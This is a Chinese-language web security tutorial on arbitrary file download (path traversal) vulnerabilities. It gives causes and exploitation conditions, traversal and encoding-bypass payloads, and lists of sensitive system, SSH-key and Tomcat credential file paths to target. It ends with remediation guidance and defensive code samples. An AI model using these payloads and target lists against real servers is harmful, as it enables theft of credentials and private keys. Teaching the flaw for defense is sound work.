 # 任意文件下载（读取）漏洞

#### 🔍产生原因

1. 功能设计问题：
   - 系统提供了文件下载或查看功能，并允许用户通过参数变量指定文件。
   - 后端使用文件读取函数获取用户请求的文件内容。
2. 安全校验缺失：
   - 未对用户输入的参数进行有效校验，或校验逻辑不严格。
   - 开发者未限制用户访问的文件范围，导致可以读取系统任意文件。
3. 文件内容输出：
   - 后端将读取的文件内容直接输出或提供给客户端，未对文件内容进行安全处理。

#### 💻利用条件

1. 存在文件读取函数：
   - 后端代码中存在可读取文件的函数（如 `readfile()` 或 `fopen()` 等）。
2. 路径可控且未校验：
   - 用户可以通过参数控制文件读取路径，且后端未对路径进行严格校验或限制。
3. 文件内容泄露：
   - 系统允许将文件内容输出或下载到客户端，直接暴露敏感信息。

#### 📖常见下载参数特征

参数名可能包含（但不限于）：
`file`, `filename`, `path`, `url`, `document`, `doc`, `download`, `filepath`, `filename`, `load`, `read`, `retrieve`, `display`, `pathfile`, `data`

#### 📌漏洞利用方法

任意文件下载漏洞，正常的利用手段是下载服务器文件，比如脚本代码、服务器配置文件或者是系统配置文件等。但有时并不知道网站所处环境以及网站路径，就可以使用../../../进行逐层猜测路径，案例如下：

```
index.php?f=../../../../../../../../../etc/passwd
index.php?f=../../../index.php
index.php?f=filename:///etc/passwd
file.php?filename=/etc/passwd
file.php?filename=../../../../../etc/passwd
file.php?filename=../../../../../../../etc/passwd%00   // 00截断
```

**⚠️绕过手法**

1. **双写绕过**
    **适用场景**：当后端对路径中的 `../` 做了置空或删除处理时。
    **示例**：
   - 输入路径：`..././config`
   - 后端处理：删除 `../` 后，实际路径变为 `../config`
   - 结果：成功绕过路径校验。
2. **编码绕过**
    **常用编码方式**：URL 编码、双重 URL 编码、十六进制编码等。
    **绕过原理**：
   - URL 编码通常会被后端自动解析一次（如 `%2e%2e%2f` 解析为 `../`）。
   - 其他编码（如十六进制）需测试后端是否支持解析。
     **示例**：
   - 输入路径：`%2e%2e%2fetc%2fpasswd`（URL 编码后的 `../etc/passwd`）。
3. **请求混淆绕过**
    **常见手法**：HTTP 参数污染（HPP）、分块传输、填充垃圾字符等。
    **特点**：通用性强，可用于干扰后端处理逻辑。
    **示例**：
   - 注入冗余参数：`filename=config&ignore=../`。
   - 分块传输或填充无效字符以绕过长度或格式检查。

##### Windows 系统下常用敏感文件路径

```
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml          //IIS配置文件
C:\Windows\repair\sam                               //存储系统初次安装的密码
C:\Program Files\mysql\my.ini                               //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD     //Mysql root
C:\Windows\php.ini              //php配置信息
C:\Windows\my.ini             //Mysql配置信息
C:\Windows\win.ini             //Windows系统的一个基本系统配置文件
/Windows/System32/drivers/etc/HOSTS  
```

##### Linux 系统下常用敏感文件路径

```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts
/etc/passwd
/etc/shadow
/etc/issue 系统版本
/etc/fstab
/etc/host.conf
/var/log/xferlog                   FTP会话，记录拷贝了什么文件
/var/log/cron                     计划任务日志
/etc/(cron.d/|crontab)                //这两个也是定时任务文件
/var/log/secure                   用户登录安全日志
/etc/rc.local                          读apache的路径
/etc/motd
/etc/sysctl.conf
/var/log/syslog                   记录登陆错误时的密码等信息
/etc/environment                     环境变量配置文件 可能泄露大量目录信息
/etc/inputrc                             输入设备配置文件
/etc/default/useradd        添加用户的默认信息的文件
/etc/login.defs        是用户密码信息的默认属性
/etc/skel                            用户信息的骨架
/sbin/nologin                         不能登陆的用户
/var/log/message                  系统的日志文件
/etc/httpd/conf/httpd.conf                 配置http服务的配置文件
/etc/mtab                              包含当前安装的文件系统列表   有时可以读取到当前网站的路径
/etc/ld.so.conf
/etc/my.cnf                       mysql配置文件
/etc/httpd/conf/httpd.conf        Apache配置文件
/root/.bash_history                  终端命令操作记录
/root/.mysql_history
/proc/mounts
/porc/config.gz
/var/lib/mlocate/mlocate.db         Linux系统全文件路径数据库
/porc/self/cmdline
/usr/local/app/apache2/conf/httpd.conf    //apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf   //虚拟网站设置
/usr/local/app/php5/lib/php.ini   //php相关设置
/etc/httpd/conf/httpd.conf        //apache配置文件
/etc/php5/apache2/php.ini         //ubuntu系统的默认路径
```

**Tomcat**

```
tomcat/conf/tomcat-users.xml  tomcat管理员账号密码的配置文件
apache-tomcat/conf/tomcat-users.xml  //tomcat的角色(授权用户)配置文件
tomcat/conf/server.xml   tomcat连接数据库的密码配置文件
tomcat/webapps/ROOT/WEB-INF/classes/database.properties
apache-tomcat/conf/web.xml    //tomcat应用程序的部署描述符文件
apache-tomcat/logs/catalina.out    //即tomcat的标准输出和标准出错，所有输出到这两个位置的都会进入catalina.out，这里包含tomcat运行自己输出的日志以及应用里向console输出的日志。
```

**Web应用**

```
PHP：获取inc/config.php文件，获得数据库连接字符串中的口令信息；
ASP：获取inc/conn.asp文件，获得数据库连接字符串口令，得到数据库口令。若是ACCESS数据库，可以得到数据库路径，再下载数据库内容；
ASPX：获取网站根目录web.config文件，获得数据库连接字符串中的口令信息；
获取bin/*.dll文件，获取网站源码（不完整代码），使用.NET reflector工具打开编译后的dll文件；
JSP：获取conf/tomcat-user.xml文件，获得tongcat管理界面的口令信息，上传war包GetShell；
获取WEB-INF/Web.xml文件，获得数据库连接字符串中的口令信息。
```

#### **🛡️修复建议**

##### **1. 限制文件访问目录**

- **措施**：在服务器配置文件（如Nginx、Apache或应用配置）中，明确限定用户可访问的文件目录范围。

- 示例(NGINX)：

  ```
  location /downloads {
      root /var/www/safe-dir;
  }
  ```

- **效果**：即使恶意用户尝试越权访问，也无法读取系统其他目录的文件。

##### **2. 严格校验用户输入**

- 关键点：对用户输入的文件路径或名称进行过滤和转义，禁止包含以下危险字符或序列：
  - 目录跳转符：`../`、`..\`、`./`
  - 终止符/截断符：`%00`（空字节）、`#`
  - 特殊符号：`..`（双重父级目录）
- 实现方式：
  - 使用正则表达式匹配并拦截非法字符。
  - 在代码层面强制标准化路径（如PHP的`realpath()`函数）。

##### **3. 输入内容合法性校验**

- **文件类型**：验证上传或下载的文件扩展名是否符合预期。

- **文件地址**：检查路径是否在允许范围内。

- **文件内容**：通过文件头（Magic Number）或内容扫描，确保文件未被篡改。

- 示例代码（Python）：

  ```
  ALLOWED_EXTENSIONS = {'jpg', 'png', 'pdf'}
  if not file.filename.lower().endswith(tuple(ALLOWED_EXTENSIONS)):
      raise ValueError("非法文件类型")
  ```

##### **4. 白名单控制文件路径**

- **策略**：仅允许访问预先定义的白名单目录和文件名，拒绝其他所有请求。

- **优势**：比黑名单更安全，避免遗漏可能的绕过手法。

- 实现示例（Java）：

  ```
  String safeDir = "/var/www/uploads/";
  String userPath = request.getParameter("file");
  Path resolvedPath = Paths.get(safeDir).resolve(userPath).normalize();
  if (!resolvedPath.startsWith(safeDir)) {
      throw new SecurityException("非法路径访问");
  }
  ```

##### **5. 限制文件扩展名**

- 白名单后缀：仅允许下载以下常见安全文件类型：
  - 图片：`jpg`、`gif`、`png`
  - 文档：`pdf`、`doc`、`xls`、`ppt`
  - 压缩包：`zip`、`rar`
- **动态校验**：结合MIME类型检测，防止伪装扩展名的攻击。

